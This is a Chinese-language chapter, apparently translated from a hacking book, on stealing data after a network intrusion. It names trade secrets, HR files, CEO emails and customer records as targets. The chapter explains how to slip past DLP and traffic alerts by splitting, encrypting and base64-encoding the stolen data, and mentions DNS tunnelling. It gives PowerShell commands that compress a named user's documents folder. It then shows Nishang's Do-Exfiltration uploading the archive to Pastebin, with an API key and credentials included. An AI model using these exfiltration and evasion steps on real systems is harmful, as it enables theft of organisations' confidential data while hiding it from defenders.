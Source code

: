 # 第五章、数据狩猎

> 炼金术士在寻找金子时发现了许多更有价值的东西。 -- _Earl Derr Biggers_（亚瑟叔本华）

现在我们有了通往王国的钥匙，我们可以完全专注于实现我们“访问”的真正目的:

* 获取商业秘密、人力资源和商业战略文件
* 转储CEO的珍贵邮件。泄露客户记录

## 5.1 数据窃取技术

定位数据很容易，但在不触发所有告警系统的情况下把数据取出来就有点棘手了。假如你尝试将错误的ppt格式文件上传到谷歌硬盘，那么数据防泄漏系统\(DLP\)类的工具就会告警，无论数据多小。我们必须小心。

总之，我们需要一个可靠的战略：

* 毫不费力地获取大数据（千兆字节）；
* 对数据加密以使后续的调查查不到实际采取的措施；
* 找一个绕过防火墙或web代理的可靠方法。

如果我们在一个晚上窃取了50GB的数据，那么流量会有明显增加，之后还让对方查到数据泄露的时间。可能当流量达到一定的阈值，甚至可能会发出警报，这太麻烦了!为了避免任何麻烦，我们将把待走私的数据分成多块，并在随机的某小时/某天/某周将数据窃取出去。

假设我们要将Rachel的主目录“C:\users\Rachel\documents”数据偷偷传出去。首先，我们使用本地PowerShell命令对其进行压缩\(适用于Windows 8和Windows 10，但不适用于Windows 7\)

```text
PS> Get-ChildItem C:\users\Rachel\documents | Compress-Archive -DestinationPath c:\users\Rachel\documents.zip
```

提示:要设置一个密码，并在目标机上安装7zip和使用此PowerShell脚本[http://blog.danskingdom.com/powershell-function-to-create-passwordprotectedzip-file。](http://blog.danskingdom.com/powershell-function-to-create-passwordprotectedzip-file。)

然而，窃取此zip文件可能会被DLP系统捕获，该DLP系统可以解压缩文件来查找带标签的文档。如果无法解压文件，系统可能会阻止它外传。这就是为什么我们需要添加另一个欺骗手段：即将这个显而易见的zip文件转换成一个普通的旧文本文件，使得它能通过任何DLP系统。

我们可以使用Windows本地命令“certutil -encode”，用base64对压缩的文档进行编码，然后将生成的文本文件发送到一个上传服务器。 但是，这有一个工具可以自动执行此操作，并节省了几分钟的代码，即Nishang提供的Do-Exulation.ps1 \[74\]。 此工具有两个主要选项:

* 通过HTTPS将数据传输到我们控制的Web服务器。
* 将数据嵌入到发送到我们的DNS服务器的DNS查询中。这是绕过防火墙规则和代理过滤的一种非常聪明的方法，因为必须允许DNS穿过这种设备。

我们将使用第一个选项，因为它提供了一个有趣的选项，可以直接将数据上传到Pastebin.com，所以我们不必担心设置web服务器。

我们在Pastebin上设置一个帐户，并获得一个API密钥\(以下称为dev\_key\)。然后，我们使用以下命令执行Do- Exfiltering:

```text
PS> C:\users\Rachel> Get-content documents.zip | Do- Exfiltration -ExfilOption pastebin -dev_key 0d19a7649774b35181f0d008f1824435 username paste_user_13 -password paste_password_13
```

如您所见，我们可以直接从PasteBin获取文件。

![xxx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/5.1-1.jpg)
